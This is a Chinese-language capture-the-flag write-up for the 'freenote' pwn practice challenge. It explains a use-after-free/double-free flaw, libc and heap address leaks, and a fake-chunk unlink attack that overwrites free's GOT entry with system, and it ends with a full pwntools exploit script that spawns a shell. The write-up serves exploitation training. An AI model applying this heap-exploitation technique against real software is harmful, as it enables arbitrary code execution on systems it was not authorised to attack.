







# 标题

> xman-practice-freenote

## **原理**

UAF double free unlink。

## **环境**
Ubuntu 16.04 

## **工具**
ida pro，gdb
## **步骤**



可以看到，delete函数中存在 uaf漏洞。 而且 free掉一个chunk的时候也没有检查flag值，这样方便了我们接下来的利用。



程序运行后，会有一个初始函数，可以看到，它先malloc了一个很大的堆块，data[0]部分存储note的最大数量，data[1]存储的是当前堆块的数量。data[2]用于存储flag的值（用来表示这个堆块是否被free，可以结合后面的代码看出）data[3]用于存储note的大小，data[4]用于存储 note的地址。也就是说 一开始malloc的一个大堆块是用于存储note的信息，每个可分配到0x18个字节。

可以调试一个看一下堆，我先new两个新的note。

```
new(0x80,a*0x70)
new(0x80,b*0x70)
```


可以看到data[0]的部分写的100，这是可以申请的最大数量，data[1]表示有两个note，接下来黄框中的内容就是第一个note的信息，包括flag位，size和ptr。

- 结构我们清楚了，按照一般的套路，我们要先泄漏libc的地址。

```
notelen=0x80

new_note("A"*notelen)
new_note("B"*notelen)
delete_note(0)

new_note("\x78")
#gdb.attach(p)
list_note()
p.recvuntil("0. ")
leak = p.recvuntil("\n")
print leak[0:-1].encode('hex')
leaklibcaddr = u64(leak[0:-1].ljust(8, '\x00'))
print hex(leaklibcaddr)

```

上面的过程不再详细讲解，就是通过new一个unsortedbin 大小的堆块，然后free掉。再new出来，又因为malloc和free的过程不会修改堆块中的内容，所以 读取堆块中的内容就会将main_arena+88的地址泄漏出来，进而得到libc的基地址。

- 接下来我们泄漏一个堆块的地址。

```
notelen=0x80

new_note("A"*notelen)#0
new_note("B"*notelen)
new_note("C"*notelen)
new_note("D"*notelen)
delete_note(2)
delete_note(0)

#gdb.attach(p)
#raw_input()
new_note("AAAAAAAA")
list_note()
p.recvuntil("0. AAAAAAAA")
leak = p.recvuntil("\n")
```

首先我们先new出4个堆块（防止合并）并释放掉两个，然后 再重新malloc一个大小相同的堆块，这样，新malloc的堆块的原bk位置，就指向目前还在unsorted bin中的bin。当我们打印新堆块的内容时，就能得到一个 bin的地址。

- 接下来我们要利用到double free和unlink机制。

首先 先malloc 3个堆块 是为了在初始化时 malloc的那个大堆块里 填充信息。然后再free掉。接下来我们再malloc一个新的堆块，在新的堆块中 伪造三个堆块。如下图所示：



```
payload  = ""
payload += p64(0x0) + p64(notelen+1) + p64(fd) + p64(bk) + "A" * (notelen - 0x20)
payload += p64(notelen) + p64(notelen+0x10) + "A" * notelen
payload += p64(0) + p64(notelen+0x11)+ "\x00" * (notelen-0x20)

new_note(payload)
```
首先看第一个fake chunk1 ，大小为0x80 fd=0x25be018 bk=0x25be020。

fake chunk2，大小为0x90 但是 PREV_INUSE位 为0 表示fake chunk1 处于被free掉的状态。

fake chunk3，大小为0x90，PREV_INUSE位 为1。

注：其实我们在这个位置构造伪堆 就是想形成一个free chunk链。（继续向下看

现在对3个fake chunk的内容都了解之后，进行下面的操作。

```
delete_note(1)
```

free掉fake chunk2。free掉之后会检查前面那一个相邻块 是否是空闲的。因为fake chunk1是空闲的，所以要进行一个合并操作。fake chunk1 的fd和bk是有值的，所以会对fd和bk进行一个检查。其中fd的值 就是init的时候 malloc那个大块。



现在需要检查那个大块的bk值是否是fake chunk1。答案当然是肯定的。这样系统就会认为 fake chunk1是一个合法的free
chunk。 合并之后进行unlink操作，这个操作会造成 init_chunk中 bk值的改变。unlink的过程不在赘述。

delete之后数据是这个样子的。



看bk位置的值发生了改变。

- 这样我们就可以通过利用 edit的功能 写入一个got。同时也通过，也可以通过edit功能修改got_addr。我们利用的是free的。



-

```
free_got = 0x602018

payload2 = p64(notelen) + p64(1) + p64(0x8) + p64(free_got) + "A"*16 + p64(binsh_addr)
payload2 += "A"* (notelen*3-len(payload2)) 

edit_note(0, payload2)
edit_note(0, p64(system_sh_addr))

delete_note(1)
```

修改之后通过delete触发，得到shell。

完整exp:

```
#!/usr/bin/env python
from pwn import *

p = process('./freenote')

libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')

def new_note(x):
    p.recvuntil("Your choice: ")
    p.send("2\n")
    p.recvuntil("Length of new note: ")
    p.send(str(len(x))+"\n")
    p.recvuntil("Enter your note: ")
    p.send(x)

def delete_note(x):
    p.recvuntil("Your choice: ")
    p.send("4\n")
    p.recvuntil("Note number: ")
    p.send(str(x)+"\n")

def list_note():
    p.recvuntil("Your choice: ")
    p.send("1\n")
    
def edit_note(x,y):
    p.recvuntil("Your choice: ")
    p.send("3\n")   
    p.recvuntil("Note number: ")
    p.send(str(x)+"\n")   
    p.recvuntil("Length of note: ")
    p.send(str(len(y))+"\n")   
    p.recvuntil("Enter your note: ")
    p.send(y)
    
####################leak libc#########################

notelen=0x80

new_note("A"*notelen)
new_note("B"*notelen)
delete_note(0)

new_note("\x78")
#gdb.attach(p)
list_note()
p.recvuntil("0. ")
leak = p.recvuntil("\n")
print leak[0:-1].encode('hex')
leaklibcaddr = u64(leak[0:-1].ljust(8, '\x00'))
print hex(leaklibcaddr)
delete_note(1)
delete_note(0)

libc_base_addr = leaklibcaddr - 0x3c4b78
print "libc_base: " + hex(libc_base_addr)

system_sh_addr = libc_base_addr + libc.symbols['system']
print "system_sh_addr: " + hex(system_sh_addr)

binsh_addr = libc_base_addr + next(libc.search('/bin/sh'))
print "binsh_addr: " + hex(binsh_addr)


####################leak heap#########################

notelen=0x80

new_note("A"*notelen)#0
new_note("B"*notelen)
new_note("C"*notelen)
new_note("D"*notelen)
delete_note(2)
delete_note(0)

#gdb.attach(p)
#raw_input()
new_note("AAAAAAAA")
list_note()
p.recvuntil("0. AAAAAAAA")
leak = p.recvuntil("\n")

print leak[0:-1].encode('hex')
leakheapaddr = u64(leak[0:-1].ljust(8, '\x00'))

print "leakheapaddr: "+hex(leakheapaddr)

#raw_input()
delete_note(0)
delete_note(1)
delete_note(3)

####################unlink exp#########################

notelen = 0x80

new_note("A"*notelen)
new_note("B"*notelen)
new_note("C"*notelen)

delete_note(2)
delete_note(1)
delete_note(0)

fd = leakheapaddr - 0x1808
bk = fd + 0x8


#gdb.attach(p)

payload  = ""
payload += p64(0x0) + p64(notelen+1) + p64(fd) + p64(bk) + "A" * (notelen - 0x20)
payload += p64(notelen) + p64(notelen+0x10) + "A" * notelen
payload += p64(0) + p64(notelen+0x11)+ "\x00" * (notelen-0x20)

new_note(payload)

delete_note(1)

free_got = 0x602018

payload2 = p64(notelen) + p64(1) + p64(0x8) + p64(free_got) + "A"*16 + p64(binsh_addr)
payload2 += "A"* (notelen*3-len(payload2)) 

edit_note(0, payload2)
edit_note(0, p64(system_sh_addr))

delete_note(1)

p.interactive()

```


## **参考阅读**

[unlink](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/unlink/)

[unlink漏洞的原理和利用](http://wonderkun.cc/index.html/?p=651)

[Linux 堆溢出漏洞利用之 unlink](https://segmentfault.com/a/1190000005655132)